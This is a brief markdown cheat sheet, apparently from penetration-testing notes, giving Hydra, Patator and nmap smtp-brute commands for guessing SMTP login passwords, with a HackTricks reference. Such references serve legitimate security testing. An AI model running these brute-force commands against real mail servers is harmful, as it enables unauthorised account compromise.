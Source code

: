 # SMTP

## 01 - Hydra

```
$ hydra -V -l <username> -P passwords.lst [-s <PORT>] <IP> smtp
```

## 02 - Patator

```
$ patator smtp_login
```

## 03 - Network Mapper

```
$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=<LOGIN | PLAIN | CRAM-MD5 | DIGEST-MD5 | NTLM>

$ nmap -p 25 --script smtp-brute --script-args "smtp-brute.auth=LOGIN,userdb=users.lst,passdb=passwords.lst" <IP>
```

---
## References

- [Hacktricks: Brute Force SMTP](https://book.hacktricks.xyz/brute-force#smtp)
